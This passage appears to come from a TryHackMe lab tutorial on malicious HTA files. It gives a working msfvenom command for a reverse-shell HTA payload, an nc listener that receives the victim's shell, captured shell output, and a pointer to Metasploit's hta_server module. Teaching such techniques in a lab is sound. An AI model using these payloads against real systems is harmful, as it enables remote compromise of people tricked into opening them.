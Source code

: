Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/07c5180cd36650478806a1bf3d4595f2.png)

**HTA Reverse Connection**

We can create a reverse shell payload as follows,

```shell-session
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```

We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell\_reverse\_tcp to our IP and listening port.

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.

```shell-session
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

Malicious HTA via Metasploit&#x20;

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta\_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.
